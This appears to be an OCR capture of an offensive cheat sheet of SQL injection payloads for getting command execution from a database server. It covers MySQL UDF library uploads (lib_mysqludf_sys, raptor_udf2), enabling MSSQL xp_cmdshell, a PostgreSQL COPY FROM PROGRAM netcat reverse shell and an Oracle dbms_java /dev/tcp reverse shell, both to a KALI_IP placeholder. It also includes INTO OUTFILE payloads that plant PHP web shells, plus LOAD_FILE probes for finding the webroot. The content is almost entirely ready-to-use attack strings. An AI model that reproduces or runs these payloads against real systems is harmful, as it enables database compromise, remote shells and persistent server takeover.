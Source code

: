 ```
############
# A) mysqludf from git
########################
git clone https://github.com/mysqludf/lib_mysqludf_sys.git
cd lib_mysqludf_sys
make
xxd -p lib_mysqludf_sys.so | tr -d '\n' > udf_hex.txt

'; SELECT 0x<hex_of_udf_binary> INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys.so';SELECT sys_exec('PAYLOAD'); --

# B) raptor_udf2.so
#####################
'; create table foo(line blob); insert into foo values(load_file('/tmp/raptor_udf2.so')); 
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so'; 
create function do_system returns integer soname 'raptor_udf2.so'; --//
```

```
######
# MS #
######
';EXECUTE sp_configure 'show advanced options', 1;RECONFIGURE;EXECUTE sp_configure 'xp_cmdshell', 1;RECONFIGURE;EXECUTE xp_cmdshell 'COMMAND'; --//
```

```
#####
# P #
#####
DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'nc KALI_IP 443 -e /bin/bash'; --//
```

```
#####
# O #
#####
'; BEGIN dbms_java.runjava('java.lang.Runtime.getRuntime().exec("/bin/bash -c ''/bin/bash -i >& /dev/tcp/KALI_IP/443 0>&1''")'); EXCEPTION WHEN OTHERS THEN NULL; END; --//
```
## Write to File
```
######
# My #
######
'; SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'; --//
'; SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE 'C:/inetpub/wwwroot/shell.php'; --//

# If different webroot enumerate using UNION and rerun above queries
' UNION SELECT 1, ... LOAD_FILE('/var/www/html/index.php') ... --// 
' UNION SELECT 1, ... LOAD_FILE('/var/www/index.html') ... --//
' UNION SELECT 1, ... LOAD_FILE('/usr/share/nginx/html/index.php') ... --//

' UNION SELECT 1, ... LOAD_FILE('C:/inetpub/wwwroot/index.php') ... --//
' UNION SELECT 1, ... LOAD_FILE('C:/xampp/htdocs/index.php') ... --//
' UNION SELECT 1, ... LOAD_FILE('D:/htdocs/index.html') ... --//
```
